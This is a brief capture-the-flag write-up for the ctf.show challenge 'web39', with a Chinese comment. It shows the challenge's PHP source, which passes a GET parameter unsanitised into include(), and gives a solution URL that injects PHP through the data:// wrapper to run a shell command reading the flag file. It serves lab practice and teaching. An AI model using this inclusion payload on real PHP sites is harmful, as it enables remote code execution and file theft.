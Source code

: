 # web39

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

include的后缀，不影响直接传入带system的payload

```plaintext
https://1de3a2ef-ca0c-486d-bc7d-14bb5f5dcf01.challenge.ctf.show/?c=data://text/plain,<?php system("tac f*"); ?>
```

![img](img/image_20250237-193726.png)
